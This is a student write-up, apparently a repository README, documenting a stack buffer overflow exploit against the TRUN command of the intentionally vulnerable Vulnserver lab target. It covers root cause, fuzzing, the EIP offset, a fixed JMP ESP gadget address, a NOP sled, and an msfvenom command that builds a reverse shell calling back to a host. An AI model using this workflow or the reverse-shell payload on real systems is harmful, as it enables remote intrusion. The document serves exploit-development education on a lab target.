# Vulnserver TRUN Command — Stack-Based Buffer Overflow

**Exploit Development Report**
Prepared by: Sharan Shetty — Cybersecurity Engineering Student
September 2026

---

## Target Overview

| | |
|---|---|
| **Software** | Vulnserver |
| **Operating System** | Windows 7 |
| **Architecture** | 32-bit |
| **Vulnerable Command** | `TRUN` |
| **Vulnerability Class** | Stack-based buffer overflow (CWE-121) |
| **Tools Used** | Immunity Debugger, Mona.py, Python 3, msfvenom, netcat |

Vulnserver is an intentionally vulnerable Windows TCP server commonly used to practice classic stack-based buffer overflow exploitation. It exposes several commands over a raw socket interface; this report documents the discovery and exploitation of a stack overflow in the `TRUN` command, resulting in remote code execution via a reverse shell.

---

## 1. Root Cause Analysis (Source Code Review)

Before fuzzing the target, the vulnserver source code was reviewed to identify the underlying cause of the overflow rather than treating the target as a black box. The handler for the `TRUN` command allocates a 3000-byte buffer for the received command data, copies up to 3000 bytes of attacker-controlled input into it, and then passes that buffer to `Function3`:


*Figure A — TRUN command handler. `TrunBuf` is allocated with `malloc(3000)` and populated via `strncpy(TrunBuf, RecvBuf, 3000)` — i.e. up to 3000 attacker-controlled bytes — before being passed directly into `Function3()`.*

`Function3`, however, copies its input into a fixed, much smaller stack buffer using `strcpy`, which performs no bounds checking at all:


*Figure B — Function3(). `Buffer2S` is only 2000 bytes, but `strcpy(Buffer2S, Input)` copies the entire input string regardless of length.*

**This is the root cause of the vulnerability:** `Function3` is fed a buffer that can be up to 3000 bytes long, but only allocates 2000 bytes of stack space to receive it, and uses `strcpy` — which copies until it hits a null terminator, not until it hits a length limit. Any `TRUN` command longer than 2000 bytes therefore overflows `Buffer2S`, overwriting adjacent stack memory including, at a sufficient offset, the saved return address. This directly explains the crash threshold observed during fuzzing below, and confirms the vulnerability as a classic unchecked `strcpy` stack buffer overflow (CWE-121 / CWE-787).

---

## 2. Vulnerability Discovery (Fuzzing)

With the vulnerable code path identified, the exact crash threshold and offset were confirmed dynamically. Rather than using a cyclic pattern generator at this stage, the vulnerable buffer was located through an **incremental fuzzing loop**: a Python script sent the `TRUN` command with a payload that grew in a loop, sending it and waiting for a response after each iteration, until the target stopped responding and the debugger caught an access violation. This confirmed that a crash was reproducible and gave an approximate buffer size at which the overflow occurred — consistent with the 2000-byte `Buffer2S` limit identified in the source review above.


*Figure 1 — Initial fuzzing script sending an incrementally-sized "A" buffer prefixed with the TRUN command.*

Sending this buffer against the target produced an access violation in Immunity Debugger:


*Figure 2 — Access violation triggered in Immunity Debugger. The stack pane shows the buffer landing as a long run of the repeating byte `0x41` (ASCII 'A'), confirming the padding directly overwrote saved stack data.*

The crash confirmed that user-controlled input was overwriting saved data on the stack. The next step was to determine the precise offset at which the saved return address itself is overwritten, so that EIP could be controlled independently of the rest of the buffer.

---

## 3. Confirming the Offset and EIP Control

With the approximate crash size known, the padding was fixed at **2006 bytes** of `"A"` and a distinct 4-byte marker (`"ZZZZ"`) was appended immediately after it. If the offset was correct, this marker — and only this marker — would appear in EIP at the moment of the crash, confirming both the exact offset and clean control over the instruction pointer.


*Figure 3 — Updated script: 2006 bytes of padding followed by a 4-byte "ZZZZ" return-address marker.*

Re-sending this buffer produced the following crash state:


*Figure 4 — EIP overwritten cleanly with `0x5A5A5A5A`, the hex representation of "ZZZZ". EBP shows `0x41414141` (the "A" padding), and the status bar reports an access violation when executing `[5A5A5A5A]` — the CPU attempted to jump to an unmapped address, since "ZZZZ" is not a valid instruction location.*

This confirmed two things: the exact offset to EIP is **2006 bytes**, and EIP is fully and cleanly attacker-controlled at that offset — a direct EIP overwrite rather than an SEH-based crash. This is the ideal primitive for a classic `JMP ESP`-style exploit.

> **Note:** a cyclic/De Bruijn pattern (e.g. via `msf-pattern_create`) is the more standard and scalable way to determine this offset in a single crash, and would be the preferred approach for buffers where the exact crash size is not already known in advance. It was not required here since both the source code review and the incremental fuzzing loop had already narrowed the crash size closely enough to confirm the offset directly with a marker value.

---

## 4. Redirecting Execution: Why `JMP ESP`

At the moment a function returns and EIP is redirected, the stack pointer (ESP) has already been incremented past the overwritten return address — meaning ESP points to whatever data immediately follows it in the buffer. By placing shellcode (preceded by a NOP sled for a safety margin) directly after the return address in the payload, redirecting execution to any instruction that performs `JMP ESP` causes the CPU to jump straight into attacker-controlled memory, without needing to know the shellcode's absolute stack address in advance.


*Figure 5 — Two-hop redirection: the overwritten return address points to a JMP ESP gadget in module code; that instruction then jumps to ESP, which lands in the NOP sled leading into the shellcode.*

For this technique to be reliable, the `JMP ESP` gadget must live at a fixed, predictable address — meaning the module it comes from must not use ASLR, rebasing, or other load-time randomization.

---

## 5. Locating a `JMP ESP` Gadget

Mona.py was used to search all loaded modules for a usable `JMP ESP` instruction:

```
!mona jmp -r esp
```


*Figure 6 — Mona.py output listing 9 candidate JMP ESP addresses, all inside `essfunc.dll`, a helper DLL shipped with vulnserver.*

`essfunc.dll` was an ideal gadget source: Mona's module table confirmed it has **ASLR, Rebase, SafeSEH, and CFG all set to False**, meaning any address inside it remains fixed across restarts and is not protected against being used as a jump target. The first candidate returned was selected:

```
0x625011af : jmp esp
[essfunc.dll]
ASLR: False | Rebase: False | SafeSEH: False | CFG: False
```

This address was written into the exploit script as the return address, in little-endian byte order:


*Figure 7 — Return address `0x625011af` inserted as `\xaf\x11\x50\x62`.*

---

## 6. Adding the NOP Sled

A 16-byte NOP sled (`0x90`) was added immediately after the return address. Since ESP lands at this position after the `JMP ESP` gadget executes, the sled provides a small safety margin so that execution reliably slides into the shellcode even if the exact landing offset shifts by a few bytes between runs.


*Figure 8 — NOP sled added between the return address and the (not yet added) shellcode.*

---

## 7. Generating Shellcode

A reverse shell payload was generated with `msfvenom`, excluding null bytes (`\x00`) which are known to terminate the `TRUN` command's string handling:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.206.1 LPORT=6969 \
  -b '\x00' -f python -v shellcode
```


*Figure 9 — msfvenom output: 351-byte `x86/shikata_ga_nai`-encoded reverse shell payload targeting `192.168.206.1:6969`.*

The generated shellcode was inserted into the exploit script, and the final payload was assembled as `padding + return address + NOP sled + shellcode`:


*Figure 10 — Completed `exploit.py` with the full buffer assembly: `buffer = head + padding + return_addr + nop_sled + shellcode`.*

**Payload layout:**

```
[ 2006 bytes "A" padding ] [ 4-byte JMP ESP address ] [ 16-byte NOP sled ] [ shellcode ]
```

---

## 8. Exploitation

A netcat listener was started on the attacking machine to catch the reverse shell, then the exploit script was executed against the target:


*Figure 11 — Exploit script connecting to the target and sending a 2383-byte payload.*

The listener received a callback and returned an interactive shell on the target:


*Figure 12 — Reverse shell established. `whoami` confirms code execution as `cicada-pc\cicada`, and `dir` lists the vulnserver directory contents, confirming full remote code execution on the target.*

---

## Conclusion

A working exploit was developed for the `TRUN` command in Vulnserver, achieving remote code execution via a classic stack-based buffer overflow rooted in an unchecked `strcpy()` call inside `Function3()`. The exploit chain relied on:

- **Identifying the root cause in source:** `Function3` copies attacker-controlled input into a fixed 2000-byte stack buffer (`Buffer2S`) using `strcpy`, with no length check, while callers may supply up to 3000 bytes
- A precise, confirmed **offset (2006 bytes)** to the saved return address, established via source review and an incremental fuzzing loop followed by a marker-value crash
- Clean, **direct EIP control** (not an SEH-based overwrite)
- A reliable **`JMP ESP` gadget** in `essfunc.dll`, selected specifically because the module has no ASLR, SafeSEH, or rebasing protections
- A **NOP sled** to absorb minor landing variance before execution reaches the shellcode
- An **encoded, null-byte-free reverse shell payload** matched to the protocol's constraints

This exercise demonstrates the full standard workflow for classic Windows stack-based overflow exploitation on an unprotected 32-bit target, from source-level root cause analysis through to working remote code execution.

**Next steps:**
- Repeat the process against an **SEH-based crash** on a different Vulnserver command (e.g. `GMON` or `KSTET`), which requires a `POP/POP/RET` gadget instead of `JMP ESP`
- Progress to targets with **DEP and ASLR enabled**, which require ROP-chain-based exploitation rather than a direct shellcode jump

> **Methodology note:** a full bad-character analysis (systematically testing byte values `\x00`–`\xff` through the buffer and comparing hex dumps) is recommended as a standard step before shellcode generation in future writeups, to confirm the complete set of bytes the target protocol mangles beyond the null byte excluded here.

---

## Repository Structure

```
vulnserver-TRUN-overflow/
├── README.md
├── fuzzer.py
├── exploit.py
└── screenshots/
    ├── fig-a-trun-handler.png
    ├── fig-b-function3.png
    ├── fig-1-fuzzer-initial.png
    ├── fig-2-crash-access-violation.png
    ├── fig-3-fuzzer-offset-marker.png
    ├── fig-4-eip-5a5a5a5a.png
    ├── fig-5-jmpesp-diagram.png
    ├── fig-6-mona-jmpesp-results.png
    ├── fig-7-return-address.png
    ├── fig-8-nop-sled.png
    ├── fig-9-msfvenom-shellcode.png
    ├── fig-10-final-buffer.png
    ├── fig-11-exploit-run.png
    └── fig-12-shell-proof.png
```
